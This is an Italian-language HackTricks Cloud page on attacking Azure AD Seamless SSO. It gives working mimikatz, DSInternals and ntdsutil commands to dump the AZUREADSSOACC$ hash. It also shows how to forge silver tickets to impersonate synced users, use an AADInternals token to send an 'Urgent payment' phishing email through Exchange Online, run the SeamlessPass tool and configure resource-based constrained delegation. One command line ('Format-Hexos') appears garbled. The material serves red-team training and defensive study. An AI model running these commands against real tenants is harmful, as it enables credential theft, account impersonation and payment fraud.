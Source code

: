 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **accede automaticamente gli utenti quando sono sui loro dispositivi aziendali** connessi alla tua rete aziendale. Quando abilitato, **gli utenti non devono digitare le loro password per accedere ad Azure AD**, e di solito, nemmeno digitare i loro nomi utente. Questa funzionalità offre ai tuoi utenti un facile accesso alle tue applicazioni basate su cloud senza necessità di componenti aggiuntivi on-premises.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Fondamentalmente, Azure AD Seamless SSO **accede gli utenti** quando sono **su un PC unito a un dominio on-prem**.

È supportato sia da [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) che da [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Il SSO desktop utilizza **Kerberos** per l'autenticazione. Quando configurato, Azure AD Connect crea un **account computer chiamato AZUREADSSOACC`$`** in AD on-prem. La password dell'account `AZUREADSSOACC$` è **inviata in chiaro ad Azure AD** durante la configurazione.

I **ticket Kerberos** sono **crittografati** utilizzando l'**NTHash (MD4)** della password e Azure AD utilizza la password inviata per decrittografare i ticket.

**Azure AD** espone un **endpoint** (https://autologon.microsoftazuread-sso.com) che accetta **ticket** Kerberos. Il browser della macchina unita al dominio inoltra i ticket a questo endpoint per il SSO.

### On-prem -> cloud

La **password** dell'utente **`AZUREADSSOACC$` non cambia mai**. Pertanto, un amministratore di dominio potrebbe compromettere il **hash di questo account**, e poi usarlo per **creare ticket silver** per connettersi ad Azure con **qualsiasi utente on-prem sincronizzato**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con l'hash puoi ora **generare biglietti silver**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Per utilizzare il biglietto silver, devono essere eseguiti i seguenti passaggi:

1. **Avviare il Browser:** Mozilla Firefox deve essere avviato.
2. **Configurare il Browser:**
* Navigare su **`about:config`**.
* Impostare la preferenza per [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) ai [valori](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) specificati:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Accedere all'Applicazione Web:**
* Visitare un'applicazione web integrata con il dominio AAD dell'organizzazione. Un esempio comune è [Office 365](https://portal.office.com/).
4. **Processo di Autenticazione:**
* Nella schermata di accesso, deve essere inserito il nome utente, lasciando vuoto il campo della password.
* Per procedere, premere TAB o ENTER.

{% hint style="success" %}
Questo non bypassa MFA se abilitato
{% endhint %}

#### Opzione 2 senza dcsync - SeamlessPass

È anche possibile eseguire questo attacco **senza un attacco dcsync** per essere più furtivi come [spiegato in questo post del blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Per questo hai solo bisogno di uno dei seguenti:

* **Un TGT di un utente compromesso:** Anche se non ne hai uno ma l'utente è stato compromesso, puoi ottenerne uno utilizzando il trucco di delega TGT falso implementato in molti strumenti come [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) e [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Se hai la chiave KRBTGT, puoi creare il TGT di cui hai bisogno per l'utente attaccato.
* **L'hash NTLM o la chiave AES di un utente compromesso:** SeamlessPass comunicherà con il controller di dominio con queste informazioni per generare il TGT.
* **Hash NTLM o chiave AES dell'account AZUREADSSOACC$:** Con queste informazioni e l'Identificatore di Sicurezza (SID) dell'utente da attaccare è possibile creare un biglietto di servizio e autenticarsi con il cloud (come eseguito nel metodo precedente).

Infine, con il TGT è possibile utilizzare lo strumento [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) con:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Ulteriori informazioni per impostare Firefox per lavorare con SSO senza soluzione di continuità possono essere [**trovate in questo post del blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Creazione di ticket Kerberos per utenti solo cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se gli amministratori di Active Directory hanno accesso ad Azure AD Connect, possono **impostare SID per qualsiasi utente cloud**. In questo modo i **ticket** Kerberos possono essere **creati anche per utenti solo cloud**. L'unico requisito è che il SID sia un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) valido.

{% hint style="danger" %}
La modifica del SID degli utenti admin solo cloud è ora **bloccata da Microsoft**.\
Per informazioni controlla [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud tramite Delegazione Constrainata Basata su Risorse <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Chiunque possa gestire gli account computer (`AZUREADSSOACC$`) nel contenitore o nell'OU in cui si trova questo account, può **configurare una delegazione constrainata basata su risorse sull'account e accedervi**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Riferimenti

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Sono nel tuo cloud, leggendo le email di tutti - hacking Azure AD tramite Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
